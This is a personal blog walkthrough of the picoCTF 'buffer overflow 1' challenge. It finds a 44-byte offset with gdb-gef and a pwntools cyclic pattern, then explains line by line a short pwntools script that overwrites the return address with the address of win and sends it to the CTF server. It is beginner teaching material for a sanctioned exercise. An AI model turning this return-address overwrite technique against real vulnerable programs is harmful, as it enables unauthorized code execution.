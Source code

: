 ```yaml
---
title: "Controlling Return Addresses with Buffer Overflows"
date: 2023-01-11T17:36:35-05:00
draft: false
tags: ["binary exploitation","reverse engineering"]
---
```

When I was younger, I was always fascinated with the idea of being able to break things digitally. However, I always believed that I was not smart enough to pursue this. In 2022, I have decided to start learning reverse engineering again! Starting out, I have started the Modern Binary Exploitation crackme files, and have been doing the picoCTF training ones as well. In this article I will cover picoCTF buffer-overflow1!

<!--more-->

### Start
Firstly, lets create a new directory called `bufferoverflow1` or whatever you would like to call it, then cd into that directory and wget both the vuln file and vuln.c file. Opening vuln.c with nano shows this:
![image](/img/1/p1.png)

It looks like buf is a character array with a size of 64 bytes. We also have a function called win, but win is never called... So how do we go about calling win? Well, firstly lets run vuln to see how it works. Mark it as executable with `chmod +x vuln` and then type `./vuln`
Entering any input should be fine here, so let's enter hello. After entering hello, we get the output:

```Okay, time to return... Fingers Crossed... Jumping to 0x804932f.``` 

Ok, so lets break this! Lets open gdb-gef (make sure you have gdb installed first then: [download gdb-gef](https://github.com/hugsy/gef)), and type `b main` to set a breakpoint at the main function. Then type `r` to resume.
![image](/img/1/p2.png)

We should be seeing something like this. Now what we can do is use pwntools (`pip install pwntools`) cyclic to generate a recognizable string for us. If we type `shell cyclic 64` and copy the output of that, we can type `c` again to continue. If we now paste in our string, and enter, we should see something like this:
![image](/img/1/p3.png)

If we look, we can see that vuln has been stopped at `0x61616c` with value `laaa`. If we now search for this pattern, using `search pattern 0x6161616c`, we can see two offsets. 44 for little endian and 41 for big endian. Just make note of these two for now. Now we need to get the address of the win function so that we can make our exploit redirect to the memory address of win. Type `x win` and note that as well. Lets exit gdb and type `file vuln`. The output tells us that vuln is an LSB executable and LSB corresponds to little endian, so vuln is in little endian. What is an endian you might ask? Well, endian is the way that our computers read and organize data. Little endian stores data with LSB first, and big endian stores data with MSB first. Ok, now we have our offset of 44. Now it is time to write out payload!

### Payload

These 9 lines are our entire payload! Let's go over what each line does.
![output](/img/1/p4.png)
1. `from pwn import *` — we import pwntools.
2. `payload = b'A'*44` — we make a variable: payload that contains the bytes of 44 A's.
3. `payload += p32(0x80491f6)` — we add the memory address of win, converted to little endian, to our payload.
4. `host, port = "saturn.picoctf.net", "[EXAMPLE_PORT]"` — we create two new variables named host and port. Put your port in example port.
5. `connection = remote(host, port)` — using pwntools remote, we create connection using our host and port.
6. `log.info(connection.recvS())` — log is used to make our output pretty, and we make log output connection.recvS(), and recvS means read data silently.
7. `connection.sendline(payload)` — we send our payload to our connection.
8. `log.success(connection.recvallS())` — if our log succeeds, output connection.recvallS(), which means read all bytes silently.
9. `connection.close()` — close our connection.

Alright, lets run this now! Going back to our terminal, we can type `python3 payload.py`:


Looking at our output, clearly everything worked smoothly. If we look, we can see that the program says time to jump with the memory address of `0x80491f6`. If we remember earlier, this is the memory address of win, which prints our flag!

### Conclusion
This was a very basic introduction to binary exploitation, and I hope to be able to cover more in the future!